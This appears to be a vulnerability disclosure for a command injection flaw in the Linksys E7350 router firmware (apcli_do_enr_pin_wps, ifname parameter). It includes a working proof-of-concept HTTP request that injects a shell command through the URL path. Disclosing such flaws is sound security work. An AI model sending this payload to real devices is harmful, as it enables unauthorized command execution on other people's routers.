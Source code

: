 # Linksys E7350 Ver.1.1.00.032 Command Injection (apcli_do_enr_pin_wps)

## Product Information

- Device: Linksys E7350
- Firmware Version: Ver.1.1.00.032
- Manufacturer's website information：https://www.linksys.com/
- Firmware download address ：https://support.linksys.com/kb/article/6935-cn/

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_do_enr_pin_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_do_enr_pin_wps/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls>123.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_do_enr_pin_wps/;ls>123.txt;/dev0/1 HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)

